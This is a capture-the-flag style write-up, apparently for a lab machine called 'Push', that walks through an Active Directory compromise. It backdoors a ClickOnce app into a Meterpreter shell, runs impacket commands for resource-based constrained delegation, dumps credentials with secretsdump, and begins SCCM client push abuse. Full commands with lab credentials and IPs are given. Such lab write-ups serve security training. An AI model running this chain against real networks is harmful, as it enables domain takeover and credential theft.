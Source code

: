 After that, open SelfService.application and update the necessary values.
![](https://photos.squarezero.dev/file/abir-images/push/33.png)

After that upload the modified files in wwwroot share.
![](https://photos.squarezero.dev/file/abir-images/push/10.png)

After a simulated user accessed the modified application, a Meterpreter shell was established as kelly.hill.
![](https://photos.squarezero.dev/file/abir-images/push/11.png)
![](https://photos.squarezero.dev/file/abir-images/push/12.png)

Inside User directory we can find Kelly.Hills Credential.
![](https://photos.squarezero.dev/file/abir-images/push/14.png)

# WriteAccountRestrictions
Using rusthound with olivia.wood's credentials to gather information:
`rusthound -d push.vl -i 10.10.137.133 -u 'olivia.wood' -p 'DeployTrust07' --adcs --dns-tcp --old-bloodhound --zip`
![](https://photos.squarezero.dev/file/abir-images/push/15.png)

kelly.hill has WriteAccountRestrictions on MS01.
![](https://photos.squarezero.dev/file/abir-images/push/17.png)

Create a new computer account with impacket:
`addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip 10.10.192.229 -domain-netbios 'push.vl'  'push.vl/Olivia.Wood':'DeployTrust07'`
![](https://photos.squarezero.dev/file/abir-images/push/18.png)

Configure MS01 to allow delegation from the attacker-controlled computer:
`rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'MS01$' -action 'write' 'push.vl/kelly.hill':'ShinraTensei!' -dc-ip 10.10.192.229`
![](https://photos.squarezero.dev/file/abir-images/push/19.png)

Request a service account impersonating administrator using the machine account:
`getST.py 'PUSH.VL/ATTACKERSYSTEM$:Summer2018!' -impersonate administrator -spn 'cifs/ms01.push.vl' -dc-ip 10.10.192.229`
![](https://photos.squarezero.dev/file/abir-images/push/20.png)

Dump credentials from MS01 using the service ticket:
`secretsdump.py -k -no-pass push.vl/administrator@ms01.push.vl`
![](https://photos.squarezero.dev/file/abir-images/push/21.png)

# SCCM Client Push Exploitation
After getting the administrator account Now we have access over the certificate authority.
We can use SharpSCCM to coerce CA to install the SCCM client in our machine and obtain NTLMv2 of the usually which in most case is a local adminitrator.
